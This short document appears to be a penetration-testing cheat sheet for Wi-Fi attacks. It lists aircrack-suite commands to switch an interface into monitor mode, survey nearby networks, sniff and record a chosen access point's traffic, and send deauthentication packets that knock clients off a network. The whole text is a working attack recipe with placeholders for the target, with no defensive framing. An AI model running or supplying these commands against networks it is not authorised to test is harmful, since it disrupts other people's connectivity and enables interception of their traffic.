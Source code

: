> ifconfig wlan0 down
> airmon-ng check kill
> iwconfig wlan0 mode monitor
> ifconfig wlan0 up


# HOST DISCOVERY

> List available networks: 
> `airodump-ng wlan0`
> Targetted sniffing:
>  `airodump-ng --bssid <host-mac> --channel <channel> --write <file> wlan0`
>  De-auth attack:
>  `aireplay-ng --deauth <packets> -a <host> -c <station> wlan0`


